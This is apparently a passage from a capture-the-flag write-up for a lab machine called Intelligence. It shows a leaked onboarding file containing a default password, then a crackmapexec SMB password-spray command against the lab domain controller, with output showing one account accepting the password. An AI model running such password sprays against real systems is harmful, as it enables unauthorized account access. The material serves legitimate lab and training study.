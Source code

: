      ❯ batcat 2020-06-04-upload.txt
     ───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
            │ File: 2020-06-04-upload.txt
     ───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        1   │ New Account Guide
        2   │ Welcome to Intelligence Corp!
        3   │ Please login using your username and the default password of:
        4   │ NewIntelligenceCorpUser9876
        5   │ After logging in please change your password as soon as possible.
        6   │ 
        7   │ ^L

## [](header-2)Crackmapexec Password Spry

     crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876 --continue-on-succes
     SMB    10.10.10.248    445    DC      [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Anita.Roberts:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Teresa.Williamson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Kaitlyn.Zimmerman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Stephanie.Young:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Kelly.Long:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Travis.Evans:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\David.Wilson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Thomas.Hall:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
     SMB    10.10.10.248    445    DC      [-] intelligence.htb\Jason.Patterson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
